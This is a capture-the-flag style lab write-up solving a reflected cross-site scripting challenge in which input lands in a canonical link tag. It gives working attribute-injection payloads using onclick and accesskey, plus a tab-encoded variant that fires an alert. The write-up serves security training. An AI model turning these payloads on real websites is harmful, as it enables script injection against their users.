





# Reflected XSS in canonical link tag
# Objective
This lab reflects user input in a canonical link tag and escapes angle brackets.\
\
To solve the lab, perform a cross-site scripting attack on the home page that injects an attribute that calls the alert function.\
\
To assist with your exploit, you can assume that the simulated user will press the following key combinations:
- `ALT+SHIFT+X`
- `CTRL+ALT+X`
- `Alt+X`
- 
# Solution
## Analysis
Payload: `$ip/?customsearch=sth` is reflected in response from a server.
||
|:--:| 
| *Test payload* |

## XSS Exploit
||
|:--:| 
| Payload: `$ip/?'onclick='alert()'accesskey='x` |

Even though the above payload works, below is a little bit cleaner version with TABs (%09).

Spaces (URL encoded or not) do not work as intended. 

||
|:--:| 
| `Space` was provided in URL and still `%20` was reflected |

||
|:--:| 
| Payload: `$ip/?'%09onclick='alert()'%09accesskey='x` |

After clicking `ALT+SHIFT+X` alert appears on screen.

